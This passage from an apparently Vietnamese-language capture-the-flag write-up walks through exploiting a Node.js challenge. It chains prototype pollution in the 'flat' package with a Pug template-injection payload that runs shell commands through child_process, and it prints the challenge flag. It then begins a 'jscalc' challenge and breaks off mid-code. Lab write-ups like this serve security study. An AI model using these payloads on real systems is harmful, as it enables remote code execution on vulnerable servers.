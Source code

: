 ![image](https://hackmd.io/_uploads/HJgLSwJU0.png)

Một cve critical với đúng version < 5.0.1 bị dính prototype polution luôn.

- `var unflatten = require('flat').unflatten;

unflatten({
    '__proto__.polluted': true
});

console.log(polluted); // true`

- Vấn đề ở đây là phải RCE để lấy được flag do đó ta seaching bug của pugjs thử:

- Tiếp tục là một lỗ hổng RCE đúng như ý ta:

![image](https://hackmd.io/_uploads/HyYb8PyUC.png)

POC của pug:

`http://localhost:5000/?p=');process.mainModule.constructor._load('child_process').exec('whoami');_=('`

- Bây giờ ta sẽ làm Prototype polution để rce được nó.


```

	{
			"artist.name":"Haigh","__proto__.block": {
	        "type": "Text", 
	        "line": "process.mainModule.require('child_process').execSync('')"
		    }
		}
```

![image](https://hackmd.io/_uploads/rk3XKQlL0.png)

![image](https://hackmd.io/_uploads/SJbCK7e8C.png)

![image](https://hackmd.io/_uploads/B1qkq7lUA.png)

flag : `HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}`

# easy

## jscalc
![image](https://hackmd.io/_uploads/ByYoi7x8R.png)


- Một chall nodejs:

```
const express       = require('express');
const app           = express();
const bodyParser    = require('body-parser');
const routes        = require('./routes');
const path          = require('path');

app.use(bodyParser.json());

app.set('views', './views');
app.use('/static', express.static(path.resolve('static')));

app.use(routes);

app.all('*', (req, res) => {
```